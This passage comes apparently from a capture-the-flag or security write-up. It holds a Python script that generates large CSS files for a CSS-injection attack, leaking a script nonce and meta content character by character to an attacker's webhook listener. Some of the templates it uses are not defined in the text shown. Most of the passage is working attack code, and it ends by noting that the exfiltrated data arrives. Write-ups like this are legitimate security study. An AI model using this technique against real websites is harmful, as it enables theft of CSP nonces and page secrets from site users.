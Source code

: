 
TEMPLATE_BACKGROUND_SCRIPT = '''*{display:block} script[nonce]{
    background: %s;
}
'''

TEMPLATE_BACKGROUND_META = '''*{display:block} meta[content]{
    background: %s;
}
'''

CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

CSS_DIR = "css"

all_css = ""
props = []

for cs in itertools.product(CHARSET, repeat=2):
    s = "".join(cs)
    all_css += TEMPLATE_START % (s, s, URL, s)
    all_css += TEMPLATE_END % (s, s, URL, s)
    props.append(f"var(--props_{s},none)")
    props.append(f"var(--prope_{s},none)")

all_css2 = ""
props_2 = []

for i, cs in enumerate(itertools.product(CHARSET, repeat=3)):
    s = "".join(cs)
    if i <= 22000:
        all_css += TEMPLATE_MATCH % (s, s, URL, s)
        props.append(f"var(--prop_{s},none)")
    else:
        all_css2 += TEMPLATE_META % (s, s, URL, s)
        props_2.append(f"var(--prop_{s},none)")

with open(f'{CSS_DIR}/first.css', 'wt') as fp:
    fp.write(all_css)
    fp.write(TEMPLATE_BACKGROUND_SCRIPT % (",".join(props)))

with open(f'{CSS_DIR}/second.css', 'wt') as fp:
    fp.write(all_css2)
    fp.write(TEMPLATE_BACKGROUND_META % (",".join(props_2)))

{% endhighlight %}

We see the outbound data flowing to our webhook listener:
